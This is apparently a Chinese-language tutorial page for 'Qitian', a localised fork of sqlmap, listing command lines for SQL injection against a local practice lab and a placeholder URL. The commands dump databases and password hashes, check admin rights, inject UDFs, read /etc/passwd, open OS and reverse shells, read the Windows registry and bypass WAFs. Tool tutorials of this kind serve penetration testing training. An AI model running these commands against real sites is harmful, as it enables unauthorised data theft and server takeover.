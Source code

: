 ## 魔改了一版中文版的SQLMAP，如下图：

 下面是由猫鼠信安团队，魔改为中文版的sqlmap，Qitian功能参数一模一样，
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/801ec7ff2c8f4432a525ec7aaefa913e.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/60382cf2fe6c4b42b7e8794955f4b747.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5731ccf6bf5a4cba88eb9bdbbe8dc8ac.png)




## 2.Qitian基础信息

 

 获取当前用户名称

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-user


获取当前数据库名称

 

 

 >python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-db


获取表名

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security --tables


获取字段

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users --columns


获取字段内容

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users -C id --dump


3.Qitian进阶信息内容

执行测试等级

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --level 2
>指定数据库类型

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms "Mysql"
>列数据库用户

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --users


列数据库

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbs


数据库用户密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords


列出指定用户数据库密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords -U root


查看权限

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges
>查看指定用户权限

 

p>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges -U root


是否是数据库管理员

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --is-dba


枚举数据库用户角色

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --roles


导入用户自定义函数（获取系统权限！）

 

Qitian/Qitian.py -u "http://url/news?id=1"   --udf-inject


cookie注入

 

python Qitian/Qitian.py -u "http://url/news?id=1"   --cookie "COOKIE_VALUE"


获取banner信息

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -b


post注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1" --data "id=3"


指纹判别数据库类型

 


>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -f


代理注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1"  --proxy"http://127.0.0.1:8118"


指定关键词

 

 

 

 

 


>python Qitian/Qitian.py -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE"

执行系统命令


>python Qitian/Qitian.py -u "http://url/news?id=1"   --file /etc/passwd

统交互shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-shell

反弹shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-pwn

读取win系统注册表

 

>python Qitian/Qitian.py -u "http://url/news?id=1"   --reg-read


保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs-o "Qitian.log"


恢复已保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs  -o "Qitian.log" --resume


## 3.Qitian绕过WAF

>python Qitian/Qitian.py -u "http://url/news?id=1"    --tamper 指定脚本
